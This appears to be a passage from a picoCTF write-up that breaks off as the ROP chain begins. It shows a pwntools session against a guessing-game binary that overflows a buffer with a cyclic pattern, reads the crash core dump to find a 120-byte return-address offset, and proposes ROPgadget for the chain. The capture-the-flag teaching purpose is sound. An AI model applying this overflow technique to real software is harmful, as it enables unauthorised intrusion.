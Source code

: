 ```
┌──(env)─(root💀kali)-[/home/kali/hamid]
└─# python3 -i p.py
[*] '/home/kali/hamid/viln_patched'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[x] Opening connection to jupiter.challenges.picoctf.org on port 51462
[x] Opening connection to jupiter.challenges.picoctf.org on port 51462: Trying 3.131.60.8
[+] Opening connection to jupiter.challenges.picoctf.org on port 51462: Done
b'Congrats! You win! Your prize is this print statement!\n'
>>> r = process([exe.path])
[x] Starting local process '/home/kali/hamid/viln_patched'
[+] Starting local process '/home/kali/hamid/viln_patched': pid 2160
>>> r.sendlineafter(b'What number would you like to guess?\n', bytes("84",encoding="utf-8"))
b'Welcome to my guessing game!\n\nWhat number would you like to guess?\n'
>>> payload = cyclic(256)
>>> payload
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac'
>>> r.recvline()
b'Congrats! You win! Your prize is this print statement!\n'
>>> r.recvline()
b'\n'
>>> r.recv()
b'New winner!\nName? '
>>> r.sendline(payload)
>>> r.wait()
[*] Process '/home/kali/hamid/viln_patched' stopped with exit code -11 (SIGSEGV) (pid 2160)
>>> core = r.corefile
[x] Parsing corefile...
[*] '/home/kali/hamid/core.2160'
    Arch:      amd64-64-little
    RIP:       0x400c8b
    RSP:       0x7ffed93673d8
    Exe:       '/home/kali/hamid/viln_patched' (0x400000)
    Fault:     0x6261616762616166
[+] Parsing corefile...: Done
>>> offset = cyclic_find(pack(core.fault_addr))
[!] cyclic_find() expected a 4-byte subsequence, you gave b'faabgaab'
    Unless you specified cyclic(..., n=8), you probably just want the first 4 bytes.
    Truncating the data at 4 bytes.  Specify cyclic_find(..., n=8) to override this.
>>> offset
120
>>>
```

We can now user ```ROPgadget --binary ./viln_patched --ropchain``` to get gadget that we can use for our payload
this is the interresting part:
